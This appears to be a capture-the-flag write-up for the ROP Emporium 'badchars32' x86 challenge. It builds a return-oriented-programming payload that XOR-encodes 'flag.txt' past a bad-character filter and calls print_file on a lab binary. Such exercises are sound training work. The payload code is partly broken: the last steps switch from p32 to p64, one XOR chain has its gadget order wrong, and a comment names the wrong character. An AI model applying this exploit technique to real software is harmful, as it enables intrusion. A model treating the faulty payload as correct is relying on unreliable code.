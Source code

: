 # badchars32 x86
Same as problem write4, function print_file will open a file with the fileaname as argument. Therefore, we can make the argument as string "flag.txt". However, "flag.txt" is too long to store in a 32-bit register, we need to write the string into data section and make the argument point to the address of string.

In this problem, there is a bad character list, which reject certain characters in buffer input, here is "a", "g", ".", "x". All these characters can be found in "flag.txt". So we need to find a way to bypass this bad characters checking. A simple way is use xor operation. Xor operation can be canceled by doing corresponded xor operation.

Check the security of binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
``` 
Since PIE is disabled, we can find data section address, therefore, we can use the same way in previous problem.

We write string to data section address:
```
readelf
...
.data = 0x804a018 >>> dataSect = 0x804a018 + 0x8
...
```
print_file function plt address:
```
plt 
...
Breakpoint 3 at 0x80483d0 (print_file@plt)
Breakpoint 4 at 0x80483b0 (pwnme@plt)
```
We also need some gadget to do following operations, write to data section, move data section address to rdi register, do the xor operation.
```
ROPgadget --binary badchars32
...
0x0804854f : mov dword ptr [edi], esi ; ret (gadget2) # write string to data section
...
0x080485bb : pop ebp ; ret (gadget4) # pop byte data section address to ebp register
...
0x0804839d : pop ebx ; ret (gadget5) # pop xor operation byte to ebx(bl) register 
...
0x080485b8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret (gadget1) # pop xor operation byte to ebx(bl) register, string to esi, data section address to edi, byte data section address to ebp.
...
0x08048547 : xor byte ptr [ebp], bl ; ret (gadget3)
...
```
We need to find xor pairs to bypass bad characters checking. Using xor_pair in pwntools:
```
xor_pair(b'flag.txt')
>>> (b'\x01\x01\x01\x01\x01\x01\x01\x01', b'gm`f/uyu')
# '`' ^ 1 = 'a'
# 'f' ^ 1 = 'g'
# '/' ^ 1 = '.'
# 'y' ^ 1 = 'x'
```
We only need to xor bad characters in "flag.txt". Then the string we write to data section will be:
```
b'flag.txt' >>> b'fl`f/tyt'
```
Since x86 can move only 4 bytes a time, we need to separate string "fl`f/tyt" into two part "fl`f", and "/tyt", move them to data section with two mov operations.
Now, we can build our payload:

Firstly, write the xor string 'fl`f' to data section, then do byte xor operation to each byte to string, secondly, write string '/tyt' to data section + (4 bytes), and do byte xor operation to each bbyte to string, finally call print_file.

Same as before, there is a 40 bytes buffer, and 4 bytes ebp.
```
'A'*44
```
Pop string 'fl`f' and data section address to esi edi, and xor byte and data section byte address into bl(ebx) and ebp.
```
p32(gadget1) + p32(0x1) + b'fl`f' + p32(dataSect) + p32(dataSect+2)
```
Write to data section and do xor opeation to 'a' byte.
```
p32(gadget2) + p32(gadget3)
```
Do xor operation to rest string byte 'g'.
```
# 'f' ^ 1 = 'g'
p32(gadget5) + p32(0x1) + p32(gadget4) + p32(dataSect+3) + p32(gadget3)
```
Pop string '/tyt' and data section address to esi edi, and xor byte and data section byte address into bl(ebx) and ebp.
```
p32(gadget1) + p32(0x1) + '/tyt' + p32(dataSect+4) + p32(dataSect+4) 
```
Write to data section and do xor opeation to '.' byte.
```
p32(gadget2) + p32(gadget3)
```
Do xor operation to rest string byte 'g'.
```
# 'y' ^ 1 = 'x'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+6) + p64(gadget4)
```
Jump to print_file.
```
p64(print_file_plt)
```
Execute exploit.py, and obtain the flag.
```
ROPE{a_placeholder_32byte_flag!}
```
